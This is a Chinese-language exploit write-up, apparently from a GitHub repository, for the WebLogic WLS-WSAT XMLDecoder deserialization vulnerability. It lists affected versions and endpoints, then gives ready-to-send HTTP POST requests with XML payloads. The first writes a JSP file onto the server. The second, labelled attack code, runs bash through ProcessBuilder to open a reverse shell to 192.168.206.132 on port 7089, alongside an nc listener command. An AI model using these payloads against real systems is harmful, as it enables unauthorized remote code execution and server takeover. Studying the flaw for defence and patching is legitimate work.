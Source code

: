 ## 简介

该漏洞利用了Weblogic中的WLS Security组件对外提供的webservice服务，使用组件中的XMLDecoder来解析用户传入的XML数据，解析过程中会有反序列化的过程(XML自身就是序列化过的数据，不需要序列化XML内容就可以被反序列化），一旦在XML中有创建类对象示例的恶意代码，就可以利用该对象的方法执行恶意代码（包括写入一句话木马，执行反弹shell指令等，要看该对象的方法的作用是写入数据到某个文件还是直接执行指令）。

## 漏洞影响版本

10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0

## 漏洞触发地址

```
`/wls-wsat/CoordinatorPortType` 
`/wls-wsat/RegistrationPortTypeRPC`
`/wls-wsat/ParticipantPortType` 
`/wls-wsat/RegistrationRequesterPortType` 
`/wls-wsat/CoordinatorPortType11`
`/wls-wsat/RegistrationPortTypeRPC11` 
`/wls-wsat/ParticipantPortType11`
`/wls-wsat/RegistrationRequesterPortType11`
```

## 测试代码

通过改造HTTP为POST类型，利用CoordinatorPortType组件的java.beans.XMLDecoder类中的java.io.PrintWriter类构建一个实例，该实例的目标地址为servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp，并调用println方法向该目标地址中写入out.print("test");在通过web访问该文件时就会执行该文件中的代码。

通过访问http://ip:port/bea_wls_internal/test.jsp即可访问到该网页。

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println">
<string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

![img](../../photo/v2-96b7b2098584b2cf034cbeb6e96c696e_1440w.webp)

## 攻击代码（反弹shell）

监听本地端口

nc -l -p 7089

利用burp更改数据包，反弹shell

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: IP:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.206.132/7089 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

